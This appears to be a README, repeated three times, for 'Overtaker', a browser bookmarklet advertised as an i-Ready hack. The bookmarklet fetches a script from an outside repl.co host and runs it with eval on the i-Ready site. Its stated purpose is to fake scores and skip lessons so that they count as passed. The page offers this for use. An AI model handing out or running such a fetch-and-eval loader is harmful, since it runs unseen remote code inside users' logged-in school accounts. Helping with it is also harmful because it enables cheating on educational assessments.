 # Overtaker
I-Ready hacks, made by wang, and Altas. Such cool.
# Overtaker (cool name ig)
Drag and drop this into your bookmarks bar and then click it on i-Ready 
<br>
`javascript:fetch("https://i-Ready-Overload-30.hgocrazy.repl.co/script.js").then(r=>r.text()).then(r=>eval(r))`
<br>
# Features<br>
1.Fake score<br>
This can fake an i-Ready score. DOESN'T COUNT AS A PASSED LESSON ITS FAKE<br>
2.Lesson skipper<br>
this will actually skip a lesson for you and count it as whatever score you choose
3.Theme<br>
You can make your own background
# Overtaker (cool name ig)
Drag and drop this into your bookmarks bar and then click it on i-Ready 
<br>
`javascript:fetch("https://i-Ready-Overload-30.hgocrazy.repl.co/script.js").then(r=>r.text()).then(r=>eval(r))`
<br>
# Features<br>
1.Fake score<br>
This can fake an i-Ready score. DOESN'T COUNT AS A PASSED LESSON ITS FAKE<br>
2.Lesson skipper<br>
this will actually skip a lesson for you and count it as whatever score you choose
3.Theme<br>
You can make your own background
# Overtaker (cool name ig)
Drag and drop this into your bookmarks bar and then click it on i-Ready 
<br>
`javascript:fetch("https://i-Ready-Overload-30.hgocrazy.repl.co/script.js").then(r=>r.text()).then(r=>eval(r))`
<br>
# Features<br>
1.Fake score<br>
This can fake an i-Ready score. DOESN'T COUNT AS A PASSED LESSON ITS FAKE<br>
2.Lesson skipper<br>
this will actually skip a lesson for you and count it as whatever score you choose
3.Theme<br>
You can make your own background

